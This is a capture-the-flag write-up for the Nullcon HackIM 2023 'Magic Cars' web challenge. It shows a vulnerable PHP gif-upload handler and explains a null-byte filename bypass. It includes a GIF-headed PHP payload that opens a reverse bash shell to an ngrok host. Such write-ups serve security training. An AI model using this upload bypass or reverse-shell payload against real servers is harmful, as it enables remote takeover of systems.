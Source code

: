 # Nullcon Goa HackIM CTF 2023

## Web

<span style="font-size: larger;">Magic Cars</span>

Description: Who doesn't love Magical Cars? go checkout this cool website and even upload your fav gif to support it. Author: @moaath

## Challenge Overview
![Index](./images/index.png)

We have been given a website [http://52.59.124.14:10021/](http://52.59.124.14:10021/). We can see three options there. But only gallery seems to be interesting.

So first let's see the source code given.

'''php
<?php
error_reporting(0);

$files = $_FILES["fileToUpload"];
$uploadOk = true;

if ($files["name"] != "") {
    $target_dir = urldecode("images/" . $files["name"]);

    if (strpos($target_dir, "..") !== false) {
        $uploadOk = false;
    }

    if (filesize($files["tmp_name"]) > 1 * 1000) {
        $uploadOk = false;
        echo "Too big!!!";
    }

    $extension = strtolower(pathinfo($target_dir, PATHINFO_EXTENSION));
    $finfo = finfo_open(FILEINFO_MIME_TYPE);
    $type = finfo_file($finfo, $files["tmp_name"]);
    finfo_close($finfo);

    if ($extension != "gif" || strpos($type, "image/gif") === false) {
        echo " Sorry, only gif files are accepted";
        $uploadOk = false;
    }

    $target_dir = strtok($target_dir, chr(0));

    if ($uploadOk && move_uploaded_file($files["tmp_name"], $target_dir)) {
        echo "<a href='$target_dir'>Uploaded gif here. Go see it!</a>";
    }
}
?>
'''


## Vulnerability Identification

As we can see the code is checking MIME type when we upload a gif. This leads to file upload vulnerability.

So adding gif header in the file the server can be easily exploited

[Reference](https://book.hacktricks.xyz/pentesting-web/file-upload)


## Exploiting the Vulnerability

So to exploit this we will set the header of the file to **GIF89a**. And then we will inject some php code to exploit the server.

We will name this file as exploit.php%00.gif. The nullbyte will bypass the checks performed and the name of the file which will be uploaded on the server will be exploit.php as it will ignore the part after the nullbyte.

So to exploit this server we will try to get a shell using **ngrok**

exploit.php%00.gif looks like:

'''php
GIF89a
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/0.tcp.in.ngrok.io/16344 0>&1'");?>
'''

## Obtaining the Flag

To retrieve the flag, we will use ngrok to get reverse shell.

After uploading the file when we open it we get the shell.

The flag is located in /var/www/html named **flag.flag**.

![Flag](./images/flag.png) 

Flag: **ENO{4n_uplo4ded_f1l3_c4n_m4k3_wond3r5}**

Thank You

